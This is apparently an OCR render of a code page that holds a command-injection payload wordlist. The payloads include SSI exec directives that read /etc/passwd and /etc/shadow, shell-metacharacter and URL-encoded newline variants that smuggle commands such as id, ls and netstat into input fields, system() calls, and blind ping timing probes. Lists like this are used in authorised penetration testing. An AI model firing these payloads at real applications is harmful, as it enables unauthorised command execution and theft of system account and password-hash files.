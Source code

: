 &lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/shadow&quot;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
&lt;!--#exec%20cmd=&quot;/usr/bin/id;--&gt;
/index.html|id|
;id;
;id
;netstat -a;
;id;
|id
|/usr/bin/iddqwdq
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
\n/bin/ls -al\n
\n/usr/bin/id\n
\nid\n
\n/usr/bin/id;
\nid;
\n/usr/bin/id|
\nid|
;/usr/bin/id\n
;id\n
|usr/bin/id\n
|nid\n
`id`
`/usr/bin/id`
a);id
a;id
a);id;
a;id;
a);id|
a;id|
a)|id
a|id
a)|id;
a|id
|/bin/ls -al
a);/usr/bin/id
a;/usr/bin/id
a);/usr/bin/id;
a;/usr/bin/id;
a);/usr/bin/id|
a;/usr/bin/id|
a)|/usr/bin/id
a|/usr/bin/id
a)|/usr/bin/id;
a|/usr/bin/id
;system('cat%20/etc/passwd')
;system('id')
;system('/usr/bin/id')
%0Acat%20/etc/passwd
%0A/usr/bin/id
%0Aid
%0A/usr/bin/id%0A
%0Aid%0A
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
%0a ping -i 30 127.0.0.1 %0a
`ping 127.0.0.1`
| id
& id
; id
%0a id %0a
`id`
$;/usr/bin/id
